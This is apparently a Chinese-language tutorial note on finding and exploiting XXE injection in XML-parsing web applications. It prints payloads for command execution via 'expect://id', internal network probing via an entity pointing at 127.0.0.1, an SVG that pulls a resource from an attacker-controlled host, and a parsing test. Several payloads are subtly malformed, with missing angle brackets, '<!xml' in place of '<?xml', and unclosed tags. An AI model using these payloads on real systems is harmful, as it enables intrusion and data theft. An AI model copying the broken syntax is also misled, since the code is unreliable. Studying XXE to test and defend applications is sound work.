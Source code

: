 ```xml-dtd

svg矢量图
Content-Type：image/svg+xml
<?xml version="1.0" encoding="UTF-8" Standalone="no"?><svg xmlns:svg="http://www.w3.org/2000/svg" xmlns="http:// www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="200" height="200"><image height="200" width=" 200" xlink:href="http://vpsip/image.jpeg" /></svg>
```



#### 黑盒角度：

首先要先看头部定义
如果Content-Type 没有进行纯xml格式进行定义 ，极大可能不会有xxe漏洞

#### 白盒角度：

看恶意的xxe的库 比如xmllib2.9以内的库

### XXE危害

读文件  ：本地读文件，伪协议的读文件，OOB外带

上传文件 ：偏向java特定的库 jar协议 前提条件要出网

命令执行：特定的情况下出现命令执行 比如（xml引发的反序列化，使用了特定协议比如php的伪协议expact）

```xml-dtd
<!DOCTYPE root [!ENTITY cmd SYSTEM "expect://id">]>
<dir>
<file>&cmd;<file>
</dir>
```

内网探测

```xml-dtd
<!DOCTYPE xxe [!ELEMENT name ANY> <!ENTITY xxe SYSTEM "http://127.0.0.1:80">]>
```

dos攻击

### 挖掘思路

**1.首先要看数据是否支持xml传输**

在测试过程中 将Content-Type 添加或修改application/xml 如果返回包正常获取数据 这是XXE的前提
证明使用了xml传输数据

**2.检测xml是否会被解析**

```xml-dtd
<!xml version='1.0' encoding="utf-8"?>
<!DOCTYPE ANY[ <!ENTITY test 'this is test'>]>
<root>&test;<root>
如果&test;变成'this is test'，就进行第下一步
```
